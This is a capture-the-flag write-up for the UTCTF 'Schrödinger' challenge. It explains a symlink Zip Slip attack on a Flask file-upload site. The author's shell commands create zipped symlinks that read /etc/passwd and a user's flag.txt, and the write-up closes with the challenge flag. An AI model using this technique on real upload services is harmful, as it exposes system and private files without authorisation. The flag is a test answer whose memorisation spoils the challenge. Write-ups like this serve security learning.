




# Schrödinger

> Hey, my digital cat managed to get into my server and I can't get him out.
> 
> The only thing running on the server is a website a colleague of mine made.
> 
> Can you find a way to use the website to check if my cat's okay? He'll likely be in the user's home directory.
> 
> You'll know he's fine if you find a "flag.txt" file.
> 
> By helix (@helix_shift on discord)
> 
> http://betta.utctf.live:5422

Solution:

No source file(s) were given...visiting the link gives us a simple webpage with an upload functionality.





Based on the response headers, this is running using `Werkzeug/3.0.1 Python/3.10.12`

So I searched for `python zip rce ctf` which shows several results about `Zip Slip`


One good writeup can be seen at https://infosecwriteups.com/zippy-challenge-writeup-cyberhack-ctf-80eb1d422249

I tried using `../flag.txt`...

```
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ ln -s ../flag.txt exploit
                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ zip --symlinks exploit.zip exploit       
  adding: exploit (stored 0%)
```

But it only said "Something went wrong" after uploading. Also tried going in depth but got the same error.

So I decided to check the `/etc/passwd` as it contains the home directory

```
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ ln -s ../../../../../../etc/passwd grabETCpasswd        
                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ zip --symlinks grabETCpasswd.zip grabETCpasswd
  adding: grabETCpasswd (stored 0%)
```



Oh, that worked! It seems our target directory is `/home/copenhagen`, let's use that

```
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ ln -s ../../../../../../home/copenhagen/flag.txt getFlag
                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ zip --symlinks getFlag.zip getFlag          
  adding: getFlag (stored 0%)
```



There we go!

Flag: `utflag{No_Observable_Cats_Were_Harmed}`